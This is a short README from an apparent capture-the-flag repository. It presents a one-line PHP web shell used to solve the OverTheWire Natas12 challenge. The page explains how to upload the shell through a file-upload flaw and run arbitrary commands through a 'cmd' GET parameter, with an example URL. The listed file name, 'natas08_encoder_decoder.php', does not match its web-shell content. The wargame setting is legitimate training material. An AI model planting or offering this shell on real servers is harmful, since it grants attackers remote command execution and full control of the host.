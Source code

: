 ## 🔐 natas08_encoder_decoder.php

**Created:** 2025-06-03  
**Author:** Itacarambi  
**Challenge:** [OverTheWire — Natas12](https://github.com/ItacarambiSec/CTFs/blob/main/OverTheWire/Natas/Natas12/Readme.md)

---

## 🎯 Purpose

This script serves as a basic web shell, designed specifically for Remote Code Execution (RCE). It was used in the Natas12 challenge to execute arbitrary commands on the remote server after bypassing file upload restrictions. It receives a command via a GET parameter (`cmd`) and executes it using PHP's `system()` function, displaying the output directly on the web page.   

---

## ⚙️ Usage

This script must be uploaded to a vulnerable web server, typically via a file upload vulnerability.  

1. Upload: After bypassing upload filters (as demonstrated in Natas12 by manipulating the file name extension), upload this script to a web-accessible directory on the target server.  
2. Execute: Access the uploaded script via its URL in the browser, appending the desired command as a GET parameter.  

Example: `http://[target_url]/upload/[script_name].php?cmd=ls%20-la` 

## 💻 Script

```php
<?php system($_GET['cmd']); ?>
```
  

